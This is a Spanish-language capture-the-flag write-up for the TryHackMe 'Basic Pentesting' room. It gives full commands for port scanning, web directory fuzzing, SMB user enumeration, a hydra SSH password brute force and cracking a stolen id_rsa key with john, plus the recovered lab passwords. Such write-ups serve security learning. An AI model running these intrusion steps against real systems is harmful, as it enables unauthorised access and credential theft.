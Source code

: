 ```yaml
---
title : Máquina|Basic Pentesting
published : True
---
```

<p></p>

<p>Nombre : basicPentesting</p>
<p>Url : <a href="https://tryhackme.com/room/basicpentestingjt">BasicPentesting</a></p>
<p></p>

<h2><font color="white"><center># basicPentesting</center></font></h2>

* <p>Enumerando la maquina nos damos cuenta que es una maquina Linux por le ttl de respuesta el cual es 63, no es 64 porque hay un nodo intermediario.</p>
> ping -c 1 10.10.205.174 
>
<img src="/imgs/basicPentesting/basicPentesting0.jpg"/>

* <p>Seguido miramos puerto abiertos de la maquina, y detectamos la version de los puerto abiertos</p>
> nmap -O -sV --min-rate 5000 -sS -Pn --open 10.10.205.174 -o allports
>
<img src="/imgs/basicPentesting/basicPentesting1.jpg"/>
* <p>Veamos ahora el puerto ( 80 | http ) de la maquina</p>
> 
<img src="/imgs/basicPentesting/basicPentesting2.jpg"/>

* <p>Vemos que no hay nada interesante, asi que empezamos a descubrir rutas ocultas de la pagina web, y vemos que hay una ruta llamada development.</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.205.174/FUZZ
>
<img src="/imgs/basicPentesting/basicPentesting3.jpg"/>
* <p>Al mirar la los 2 archivos individualmente del directorio https://10.10.205.174/development no vemos nada interesante.</p>
>
<img src="/imgs/basicPentesting/basicPentesting4.jpg"/>
* <p>Asi que recordamos que tiene el puerto smb abierto asi que vamos a tratar de enumerarlo para poder sacar usuarios existentes</p>
> enum4linux 10.10.205.174
>
<img src="/imgs/basicPentesting/basicPentesting5.jpg"/>
>
`Tenemos 2 usuario existentes en el sistema Jay | kay.`
* <p> Teniendo esos 2 usuarios podemo hacer un ataque de fuerza bruta por ssh.</p>
> hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.205.174 ssh
>
<img src="/imgs/basicPentesting/basicPentesting6.jpg"/>
>
`Tenemos la contraseña de jan la cual es : armando`
* <p>Ahora lo que sigue es conectarnos por ssh a ver si es valida la información</p>
> ssh jan@10.10.205.174 
>
<img src="/imgs/basicPentesting/basicPentesting7.jpg"/>
* <p>Vemos que en el directorio de kay tenemos una id_rsa.</p>
>
<img src="/imgs/basicPentesting/basicPentesting8.jpg"/>
>
* <p>A la hora de conectarnos por ssh nos pide contraseña.</p>
>
<img src="/imgs/basicPentesting/basicPentesting9.jpg"/>
* <p>Pero podemos hacerle un crack con john, nos transferimos el archivo <font color="yellow">id_rsa</font> a  nuestra maquina</p>
<img src="/imgs/basicPentesting/basicPentesting10.jpg"/>
* <p>Ahora cambiamos el archivo <font color="yellow"> a un formato hash por jhon</font>.</p>
> /usr/share/john/ssh2john.py id_rsa  > crackeame
<img src="/imgs/basicPentesting/basicPentesting11.jpg"/>
* <p>Ahora crackeamos el archivo que generamos,y obtenemos la contraseña <font color="red">beeswax</font>.</p>
>
<img src="/imgs/basicPentesting/basicPentesting12.jpg"/>
* <p>Y listo al conectarnos podemos ver la contraseña de root , sin querer deje apagar la maquina y la ip cambio a 10.10.56.225 pero el proceso es el mismo.</p>
> ssh -i id_rsa kay@10.10.56.225
>
<img src="/imgs/basicPentesting/basicPentesting13.jpg"/>
>
<p>OK maquina vulnerada</p>
